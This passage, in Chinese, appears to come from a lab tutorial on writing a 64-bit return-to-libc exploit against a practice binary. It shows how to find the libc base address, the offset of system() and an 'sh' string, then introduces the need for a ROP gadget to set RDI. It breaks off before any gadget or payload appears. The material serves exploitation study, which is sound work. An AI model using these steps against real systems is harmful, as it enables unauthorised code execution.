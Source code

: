 #### exp编写过程

查看libc基地址

```
more /proc/24416/maps
00400000-00401000 r-xp 00000000 fd:00 34957126                           /root/sploitfun/64/vuln
00600000-00601000 r--p 00000000 fd:00 34957126                           /root/sploitfun/64/vuln
00601000-00602000 rw-p 00001000 fd:00 34957126                           /root/sploitfun/64/vuln
7ffff7a0d000-7ffff7bd0000 r-xp 00000000 fd:00 3001855                    /usr/lib64/libc-2.17.so
7ffff7bd0000-7ffff7dd0000 ---p 001c3000 fd:00 3001855                    /usr/lib64/libc-2.17.so
7ffff7dd0000-7ffff7dd4000 r--p 001c3000 fd:00 3001855                    /usr/lib64/libc-2.17.so
7ffff7dd4000-7ffff7dd6000 rw-p 001c7000 fd:00 3001855                    /usr/lib64/libc-2.17.so
7ffff7dd6000-7ffff7ddb000 rw-p 00000000 00:00 0 
7ffff7ddb000-7ffff7dfd000 r-xp 00000000 fd:00 33560                      /usr/lib64/ld-2.17.so
7ffff7fea000-7ffff7fed000 rw-p 00000000 00:00 0 
7ffff7ff9000-7ffff7ffa000 rw-p 00000000 00:00 0 
7ffff7ffa000-7ffff7ffc000 r-xp 00000000 00:00 0                          [vdso]
7ffff7ffc000-7ffff7ffd000 r--p 00021000 fd:00 33560                      /usr/lib64/ld-2.17.so
7ffff7ffd000-7ffff7ffe000 rw-p 00022000 fd:00 33560                      /usr/lib64/ld-2.17.so
7ffff7ffe000-7ffff7fff000 rw-p 00000000 00:00 0 
7ffffffde000-7ffffffff000 rw-p 00000000 00:00 0                          [stack]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
```

得到libc基地址为`7ffff7a0d000`

通过`readelf -s /usr/lib/libc-2.17.so | grep system`查看system的offset

```
readelf -s /usr/lib64/libc-2.17.so | grep system
   224: 00000000001329b0    70 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.2.5
   582: 0000000000043270    94 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1346: 0000000000043270    94 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
   481: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS system.c
   482: 0000000000042da0  1037 FUNC    LOCAL  DEFAULT   13 do_system
  4383: 00000000001329b0    70 FUNC    LOCAL  DEFAULT   13 __GI_svcerr_systemerr
  6152: 0000000000043270    94 FUNC    WEAK   DEFAULT   13 system
  6723: 00000000001329b0    70 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr
  6784: 0000000000043270    94 FUNC    GLOBAL DEFAULT   13 __libc_system
```

通过`objdump -s /usr/lib64/libc-2.17.so |less`查找sh字符并且以00结尾

```
 11e40 6f615f6c 6f776572 5f646967 69747300  oa_lower_digits.
 11e50 696e6574 365f6f70 745f6669 6e697368  inet6_opt_finish
 11e60 00707468 72656164 5f636f6e 645f696e  .pthread_cond_in
```

得到sh.位置offset为11e5e,固sh.位置的绝对位置为0x7ffff7a1ee5e‬

64位通过寄存器传递参数,所以不需要叠栈空间,前6个参数通过这几个寄存器来传递RDI, RSI, RDX, RCX, R8,和R9
.我们需要使用ROP来将参数放到寄存器中

第一个参数需要在RDI中,我们需要一个ROP gadget将'sh'放到RDI中
